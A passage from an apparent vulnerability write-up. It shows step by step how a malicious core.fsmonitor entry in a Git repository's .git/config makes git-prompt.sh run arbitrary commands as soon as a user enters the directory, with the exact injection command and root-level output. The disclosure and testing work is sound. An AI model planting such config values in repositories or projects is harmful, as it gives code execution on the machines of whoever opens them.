 ```plain

% sudo -g docker docker build --tag=justinsteven/git-prompt.sh .
[... SNIP ...]
Successfully built 39b7b65f5c72
Successfully tagged justinsteven/git-prompt.sh:latest
```

Run it:

```plain
% sudo -g docker docker run --rm -ti justinsteven/git-prompt.sh bash
/#
```

Create an empty Git repo:

```plain
/# cd $(mktemp -d)

/tmp/tmp.BulVIpkd2j# mkdir poc

/tmp/tmp.BulVIpkd2j# git -C poc init
Initialized empty Git repository in /tmp/tmp.BulVIpkd2j/poc/.git/
```

Modify its `.git/config` to have a malicious `core.fsmonitor` value:

```plain
/tmp/tmp.BulVIpkd2j# echo $'\tfsmonitor = "echo \\"Pwned as $(id)\\">/tmp/win; false"' >> poc/.git/config

/tmp/tmp.BulVIpkd2j# cat poc/.git/config
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
	fsmonitor = "echo \"Pwned as $(id)\">/tmp/win; false"
```

Show that `/tmp/win` does not exist. `cd` into the directory containing the malicious `.git` directory and observe that `/tmp/win` contains the results of our payload:

```plain
/tmp/tmp.BulVIpkd2j# cat /tmp/win
cat: /tmp/win: No such file or directory

/tmp/tmp.BulVIpkd2j# cd poc

/tmp/tmp.BulVIpkd2j/poc (main #)# cat /tmp/win
Pwned as uid=0(root) gid=0(root) groups=0(root)
```

## Oh My Zsh - Arbitrary Command Execution
